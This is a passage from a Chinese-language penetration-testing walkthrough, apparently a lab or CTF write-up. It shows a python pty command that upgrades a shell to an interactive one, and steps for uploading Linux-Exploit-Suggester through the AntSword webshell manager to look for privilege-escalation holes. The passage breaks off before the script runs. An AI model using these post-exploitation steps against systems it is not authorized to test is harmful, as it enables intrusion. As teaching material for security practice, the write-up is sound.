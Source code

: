 ```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

>  
 交互式shell创建成功 


<img src="https://img-blog.csdnimg.cn/63e5d945dadf4153a4f684aadeea592e.png" alt="在这里插入图片描述">

### 15.使用辅助脚本发现提权漏洞

#### 1.下载辅助脚本Linux-Exploit-Suggester.sh

>  
 下载地址： 


```
https://github.com/mzet-/linux-exploit-suggester

```

#### 2.上传辅助脚本

>  
 我们直接在蚁剑中上传 


<img src="https://img-blog.csdnimg.cn/0f9665d099cf40c28996cc041096f402.png" alt="在这里插入图片描述">

>  
 上传成功 


<img src="https://img-blog.csdnimg.cn/e1fed443790c4626a4238954f34dc3cf.png" alt="在这里插入图片描述">

#### 3.发现漏洞

```
ls -l linux-exploit-suggester

```

>  
 发现没有执行权限，我们给他加个执行文件 


```
chmod +x linux-exploit-suggester 

```

<img src="https://img-blog.csdnimg.cn/7a327935acff400babfa72a21c919594.png" alt="在这里插入图片描述">

>  
 执行脚本 
